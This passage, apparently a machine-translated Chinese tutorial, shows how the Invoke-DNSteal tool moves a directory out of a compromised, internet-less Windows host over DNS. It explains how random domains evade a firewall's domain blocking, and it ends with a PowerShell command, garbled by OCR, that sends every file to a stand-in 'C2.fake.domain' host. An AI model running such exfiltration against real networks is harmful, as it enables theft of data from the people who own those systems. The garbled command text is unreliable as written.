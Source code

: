 ![](img//caca20aa05293e1855f1c315ea62a94b.png)

既然我们已经清楚了该工具最基本的功能，那么让我们来看看最复杂的使用示例。

假设我们在一个 Windows 环境(例如，一个活动目录网络)中危害了两台计算机。我们可以从机器 A 访问机器 B，反之亦然，但是机器 B 没有互联网连接，我们希望将一个完整的目录导出到机器 A，而机器 A 可以访问互联网。

在这两种情况下，我们只有非特权用户，因此，发送和接收过程都将在介质完整性过程中执行。唯一的基本要求是系统的防火墙中有一条规则允许连接到服务器。

此外，我们知道在这两者之间有一个新一代的防火墙，它可以通过阻止我们想要使用的任何域来阻挠我们的计划(如果输出直接进入互联网，这也是适用的)。

这种诡辩，先验地，对任何该领域的专家来说都是一个大问题。但是，**感谢底层的** DNS 服务器实现(感谢[@ 3v4sion](https://twitter.com/3v4si0n)出色的 TCP 实现)这不会成为问题。

基本上，**无论目的服务器是什么，我们的服务器总是会响应**。也就是说，如果我们请求 fake.domain.com 的 T2，我们的服务器将接收查询并返回它运行的 IP 地址。

这样，如果我们在每个查询中使用一个完全随机的域，任何域阻塞系统都不会影响我们。即使它们阻断了所使用的每一个域，**完全相同的链将被重复**的概率也是极低的。

因此，**阻止这种通信**的唯一方法是阻止这些机器之间的 DNS 流量，或者在源或目的地阻止 IP 通信。显然，根据环境和被入侵的机器，这是完全不可行的，这给了我们使用 **Invoke-DNSteal** 进行文件传输的自由通道。

作为一张图胜过千言万语，还是实践中见吧。我们要做的第一件事是下载任何版本的 Python for Windows(可移植的或可安装的，根据用户的喜好)，我们将让服务器在 UDP 模式下监听。

接下来，我们将在客户端部分执行以下命令:

**(ls)。姓名| % {。\ Invoke-dn steal . PS1-t C2 . fake . domain-p $ pwd \ $ _-l 24-s destination _ IP-TCP false-min 0-max 0-random**

